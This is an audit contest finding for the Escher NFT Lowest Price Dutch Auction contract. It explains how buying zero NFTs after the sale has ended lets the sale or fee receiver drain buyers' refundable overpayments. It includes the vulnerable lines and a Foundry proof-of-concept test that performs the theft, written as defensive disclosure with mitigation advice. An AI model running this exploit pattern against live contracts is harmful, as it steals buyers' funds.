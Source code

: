 ## Tags

- bug
- 3 (High Risk)
- primary issue
- selected for report
- H-03

# [`saleReceiver` and `feeReceiver` can steal refunds after sale has ended](https://github.com/code-423n4/2022-12-escher-findings/issues/441) 

# Lines of code

https://github.com/code-423n4/2022-12-escher/blob/main/src/minters/LPDA.sol#L67-L68
https://github.com/code-423n4/2022-12-escher/blob/main/src/minters/LPDA.sol#L81-L88


# Vulnerability details

First, lets go over how a buy happens.

A buyer can buy NFTs at a higher price and then once the auction ends they can use `refund()` to return the over payments. The effect is that they bought the NFTs at the lowest price (Lowest Price Dutch Auction).

Now, let's move on to what happens when the sale ends:

The sale is considered ended when the last NFT is sold which triggers the payout to the seller and fee collector:

```javascript
81:        if (newId == temp.finalId) {
82:            sale.finalPrice = uint80(price);
83:            uint256 totalSale = price * amountSold;
84:            uint256 fee = totalSale / 20;
85:            ISaleFactory(factory).feeReceiver().transfer(fee);
86:            temp.saleReceiver.transfer(totalSale - fee);
87:            _end();
88:        }
```

Earlier there's also a check that you cannot continue buying once the `currentId` has reached `finalId`:

```javascript
67:        uint48 newId = amount + temp.currentId;
68:        require(newId <= temp.finalId, "TOO MANY");
```

However, it is still possible to buy `0` NFTs for whichever price you want even after the sale has ended. Triggering the "end of sale" snippet again, since `newId` will still equal `temp.finalId`.

The attacker, `saleReceiver` (or `feeReceiver`), buys `0` NFTs for the delta between `totalSale` and the balance still in the contract (the over payments by buyers). If there is more balance in the contract than `totalSales` this can be iterated until the contract is empty.

The attacker has then stolen the over payments from the buyers.

A buyer can mitigate this by continuously call `refund()` as the price lowers but that would incur a high gas cost.

## Impact
`saleReceiver` or `feeReceiver` can steal buyers over payments after the sale has ended. Who gains the most depends on circumstances in the auction.

## Proof of Concept

PoC test in `test/LPDA.t.sol`:
```javascript
    function test_BuyStealRefund() public {
        sale = LPDA(lpdaSales.createLPDASale(lpdaSale));
        edition.grantRole(edition.MINTER_ROLE(), address(sale));
        
        // buy most nfts at a higher price
        sale.buy{value: 9 ether}(9);

        // warp to when price is lowest
        vm.warp(block.timestamp + 1 days);
        uint256 price = sale.getPrice(); // 0.9 eth

        // buy last nft at lowest possible price
        sale.buy{value: price}(1);

        uint256 contractBalanceAfterEnd = address(sale).balance;
        uint256 receiverBalanceAfterEnd = address(69).balance;
        console.log("Sale end");
        console.log("LPDA contract",contractBalanceAfterEnd); // ~ 0.9 eth
        console.log("saleReceiver ",receiverBalanceAfterEnd); // ~9 - fee eth

        // buy 0 nfts for the totalSales price - current balance
        // totalSales: 9 eth - contract balance 0.9 eth = ~8.1 eth
        uint256 totalSale = price * 10;
        uint256 delta = totalSale - contractBalanceAfterEnd;
        sale.buy{value: delta}(0);

        console.log("after steal");
        console.log("LPDA contract",address(sale).balance);
        console.log("saleReceiver ",address(69).balance - receiverBalanceAfterEnd - delta); // ~0.45 eth stolen by receiver, 0.45 eth to fees

        // buyer supposed to get back the ~0.9 eth
        vm.expectRevert(); // EvmError: OutOfFund
        sale.refund(); // nothing to refund
    }
```

## Tools Used
vs code, forge

## Recommended Mitigation Steps
I can think of different options of how to mitigate this:
 - don't allow buying 0 NFTs
 - don't allow buying if `newId == finalId` since the sale has ended